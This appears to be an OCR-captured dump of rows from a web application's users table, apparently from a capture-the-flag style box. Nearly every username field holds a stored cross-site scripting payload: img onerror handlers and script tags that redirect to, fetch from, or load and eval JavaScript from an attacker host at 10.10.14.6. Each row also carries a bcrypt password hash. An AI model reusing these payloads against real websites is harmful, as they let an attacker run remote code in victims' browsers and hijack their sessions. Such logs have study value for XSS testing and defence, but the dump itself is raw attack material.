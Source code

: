 ```
114|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror=document.location="http://10.10.14.6/xss" />|$2a$12$FHBL2qUuFUC/66Zoa6HdmOJud.snVige.ub45vd1NZ5bQrNp8qCei|user|2023-07-19 21:20:52.458749|2023-07-19 21:20:52.458749
115|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror="document.location=http://10.10.14.6/xss" />|$2a$12$.ktGXw2gESMAs1ne/tUtnOU2/N2brvmakxeEMzyem2APDCdz/tcqC|user|2023-07-19 21:21:34.761976|2023-07-19 21:21:34.761976
116|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<select<style/><img src='http://10.10.14.6/xss>|$2a$12$8olOWHQVwKVNqV6eUmKXgOyiaHOQcJAH3ZLPIu6LnYSSd86nKj64i|user|2023-07-19 21:31:08.330215|2023-07-19 21:31:08.330215
117|c0derpwnerc0derpwnerc0derpwnerc0derpwnerc0derpwn<select<style/><img src='http://10.10.14.6/c0derpwner'>|$2a$12$DFrJEGH6dwlQ/neQawQGQuacgCd4gtQwOTTZ/uPpXVaOOROwZEM9K|user|2023-07-19 21:32:20.269798|2023-07-19 21:32:20.269798
118|c0derpwnerc0derpwnerc0derpwnerc0derpwnerc0derpwn<select<style/><img src='http://10.10.14.6/c0derpwner'>|$2a$12$YDADEpUR8qWm5NMMXJ2FK.MRp22Ju9YD1nSKu6taUEGV2TPFqrZvu|user|2023-07-19 21:32:44.208237|2023-07-19 21:32:44.208237
119|ahahhahhahahahhahahhahahhahahahhahahahhahahha<script src=http://10.10.14.6/lol></script>|$2a$12$4VlQAACmOgiB2KIvgogfOeojnJqgD9CAWpR04R2NunB1YB12TUEOO|user|2023-07-19 21:34:02.621965|2023-07-19 21:34:02.621965
120|hahahahhahhahahahhahahhahahhahahahhahahahhahahha<script src=http://10.10.14.6/lol></script>|$2a$12$x08EqabROixvtZ9lO0fKI.iB3bVu9mjsvl5ZofLOhrSMAPnOapPoa|user|2023-07-19 21:34:36.188247|2023-07-19 21:34:36.188247
121|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror='const varName = require(http://10.10.14.6/require);'/>|$2a$12$JleUHwZVt0pa/oVrw06jvupUoyzD.jfbPK5oJVQqSoKTFWJklIS3m|user|2023-07-19 21:43:42.416208|2023-07-19 21:43:42.416208
122|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror=import('http://10.10.14.6/import/x.js;') />|$2a$12$7sDTadpV7cnnMsaF8R.6ceLZosCL4HFlSht3Ohf0bn1J2tQb62jDC|user|2023-07-19 21:45:25.750435|2023-07-19 21:45:25.750435
123|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror=require('http://10.10.14.6/import/x.js;') />|$2a$12$OXUmiZeRioUjEu9wlp1GcObPK52EQFj8w3M0pW4GD6e4l.dGE5I/S|user|2023-07-19 21:46:10.078449|2023-07-19 21:46:10.078449
124|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A|$2a$12$nL101K.SuBoM2U3ux0a9huq4rqBwfXLETxHL8ZkY6sfVqrnv0dE1G|user|2023-07-19 21:46:19.048602|2023-07-19 21:46:19.048602
125|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror=const a = require('http://10.10.14.6/import/x.js'); a.run(); />|$2a$12$PTHPuQoworOSyiXXlIuZ1OQV.qwYscmNtAQ4GyH/CzOJpcnHLOS6S|user|2023-07-19 21:47:36.189326|2023-07-19 21:47:36.189326
126|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror="const a = require('http://10.10.14.6/import/x.js'); a.run();" />|$2a$12$zLNLJWL.rtWd17NRl7vs.uJPHOjm37vQSf8Ioshqp5qsoKgXiAPCW|user|2023-07-19 21:48:07.684613|2023-07-19 21:48:07.684613
127|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<script>alert(1)</script>|$2a$12$f4hE7yXCcUNoJbWzmxf3devlPPN3TSmFNZRV0NaWORpCQ5Ub50JU6|user|2023-07-19 21:50:16.602200|2023-07-19 21:50:16.602200
128|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror=fetch('http://10.10.14.6/fetch') />|$2a$12$3IQ73uvHr9INl2Z4X9AgeeSgx3ZJWYaG00GwSgK4QKjPKaj7OG0jW|user|2023-07-19 21:54:54.220252|2023-07-19 21:54:54.220252
129|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror=fetch('http://10.10.14.6/fetch').then(function(r){ eval(r);} />|$2a$12$dBI04HB28z./PKSpx9e4qONoL8elaNFw0DIhI9pDvFHzxFRvaROXe|user|2023-07-19 21:56:49.268887|2023-07-19 21:56:49.268887
130|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror=fetch('http://10.10.14.6/fetch').then(function(r){ eval(r);}) />|$2a$12$csPSXYP9.6JBahQzROwPS.C2LuJX4wvJM.BPrXii5qEauhWMYBLLq|user|2023-07-19 21:57:33.337693|2023-07-19 21:57:33.337693
131|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror="x=1; alert(x)" />|$2a$12$Ioelh/zWWuxdHYzTOqsHMuZj4t3F8gKpSHmK6iGOrMyw0lZIv/2u.|user|2023-07-19 22:03:48.158132|2023-07-19 22:03:48.158132
132|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror="x=await fetch('http://10.10.14.6/await');alert(x)" />|$2a$12$zRhbvL59z3pH3AMfhMHGfeP1RcjLXP2iUGSjpDrOJrNd.4.pWJrOG|user|2023-07-19 22:04:32.743237|2023-07-19 22:04:32.743237
133|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror="x=await fetch('http://10.10.14.6/await');" />|$2a$12$QxzqSC2ssf6wPFXnYaOIqemdBaf9RoBt2J2F9lGqrxsZyx93YzTrG|user|2023-07-19 22:05:11.424591|2023-07-19 22:05:11.424591
134|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror="fetch('http://10.10.14.6/console').then(r => r.text()).then(t => {alert(t)});" />|$2a$12$gPnbAd9MQFUiWNsRe8n7aO1xcZmrT6JQ3e2TQRxR3xp0GJbLVxLji|user|2023-07-19 22:07:38.687065|2023-07-19 22:07:38.687065
```